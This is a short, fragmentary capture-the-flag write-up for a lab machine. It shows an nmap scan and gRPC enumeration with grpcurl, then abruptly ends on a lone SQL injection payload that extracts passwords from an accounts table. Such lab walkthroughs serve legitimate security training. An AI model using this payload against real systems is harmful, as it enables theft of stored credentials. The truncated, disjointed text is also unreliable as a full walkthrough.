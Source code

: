 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.11.214 pc.htb
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV pc.htb
```

We got this result
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

By googling, we found out that the port 50051 is generally used for gRPC service

# gRPC (port 50051)
There is an existing tool in Go language to communicate with gRPC service named grpcurl : https://github.com/fullstorydev/grpcurl
So let's try it :
```bash
$ /home/kali/go/bin/grpcurl -plaintext pc.htb:50051 describe                                         
SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}
grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```


80 union SELECT group_concat(password) from accounts
